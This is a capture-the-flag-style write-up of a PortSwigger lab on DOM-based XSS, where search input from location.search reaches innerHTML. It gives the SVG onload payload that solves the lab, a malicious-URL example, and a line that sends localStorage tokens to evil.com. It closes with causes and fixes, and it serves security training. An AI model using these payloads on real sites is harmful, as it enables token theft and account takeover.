



# 🎯 DOM XSS in innerHTML Sink (location.search → innerHTML)

**Write-Up by Aditya Bhatt | DOM-Based XSS | innerHTML Sink | BurpSuite**

This PortSwigger lab contains a **DOM-based XSS vulnerability** inside the blog’s search feature.
The application takes user input from **location.search** and directly injects it into HTML using **innerHTML**, which immediately makes it exploitable.

When user-controlled data is assigned to `innerHTML`, the browser **parses it as real HTML**, meaning any injected tags or event handlers execute.

Lab Link: [https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)


---

# 🧪 TL;DR

* Search box input is taken from **location.search**
* Assigned directly to **innerHTML**
* No sanitization → browser executes attacker HTML
* Final payload:

```
"><svg onload=alert(1)>
```

---

# 🌐 Brief Intro

DOM XSS occurs **entirely in the browser**, without touching the server.
Here, JavaScript reads the URL parameter, builds an HTML snippet, and inserts it using `innerHTML`. Since it’s raw HTML injection, **event handlers and scripts fire instantly**.

This makes `innerHTML` one of the **most dangerous DOM sinks**.

---

# 🧬 Step-By-Step PoC (Screenshots Included)

## **1. Open the Lab**

We access the lab to inspect how the search box behaves and what the JavaScript does with our input.


➤ **Why?**
Understand where user input flows — in this case: search box → URL → innerHTML.

---

## **2. Enter any random value in the search box → Hit Enter**

We start with a harmless string like test to observe reflection.


➤ **Why?**
Baseline request lets us inspect how the value is embedded in the DOM.

---

## **3. Inspect HTML → See the search term injected inside HTML**

Open DevTools and you’ll see your input placed inside an HTML element via `innerHTML`.



➤ **Why?**
This confirms the vulnerability: the application takes `location.search`, processes it, and inserts it directly into the DOM as HTML.

---

## **4. Inject the payload and trigger the DOM XSS**

Use this payload:

```
"><svg onload=alert(1)>
```

Paste it into the search box and hit Search.



➤ **Why this payload works?**

* The initial `">` **breaks out of the existing HTML attribute/tag**
* `<svg>` is a commonly allowed HTML tag
* `onload=alert(1)` runs automatically when SVG loads

Since innerHTML is used, the browser **parses this as real HTML**, executing the event handler instantly.

---

## **5. Alert fires → Lab Solved 🎉**

The JavaScript executes because the payload was inserted inside the DOM at runtime.



➤ **Why?**
DOM XSS triggers when the vulnerable JS executes, not when the server responds.

---

# 🧠 What We Did & Why (Quick Recap)

* Checked how the search feature reflects input
* Verified the data flow: `location.search → innerHTML`
* Identified raw HTML injection
* Used an `svg`-based payload that reliably fires in HTML context
* Browser executed event handler → **DOM XSS confirmed**

---

# 💰 Real-World Bug Bounty Relevance

DOM XSS is extremely common and often valid for payouts because:

### ✔ JavaScript-heavy apps (React, Angular, Vue) often mishandle dynamic HTML

InnerHTML usage is widespread.

### ✔ No server logs → stealthy

Harder for defenders to detect.

### ✔ Persistent across all users if stored in links or reflected in parameters

Attackers often send malicious URLs:

```
victim.com/search?q="><svg onload=alert(document.domain)>
```

### ✔ Can lead to full account takeover

Attackers can steal tokens:

```
fetch('https://evil.com/?t=' + localStorage.token)
```

### ✔ Can modify DOM to inject fake forms

Perfect for phishing inside the application itself.

---

# ❗ Why DOM XSS Happens

1. **Unsafe JS sinks**

   * innerHTML
   * document.write
   * outerHTML
   * insertAdjacentHTML

2. **Direct use of URL parameters**

   * location.search
   * location.hash
   * location.pathname

3. **No sanitization / escaping**
   Browser treats input as real HTML.

---

# 🛠 How to Fix DOM XSS

### ✔ Avoid innerHTML

Use `.textContent` or safe DOM APIs.

### ✔ Sanitize HTML

Libraries like DOMPurify neutralize harmful tags.

### ✔ Validate input

Reject or encode characters like `<`, `>`, `"`, `'`.

### ✔ Content Security Policy (CSP)

Block inline JS to neutralize many DOM XSS payloads.

---

# 🔥 Final Thoughts

This lab demonstrates a classic DOM XSS triggered by **innerHTML + location.search** — one of the most common patterns found in modern JavaScript-heavy applications.
The moment HTML is constructed from user input without sanitization, an attacker can inject arbitrary JavaScript.

DOM XSS = Fast, silent, reliable, and widely exploitable.

Stay offensive. <br/>
— **Aditya Bhatt** 🔥

---
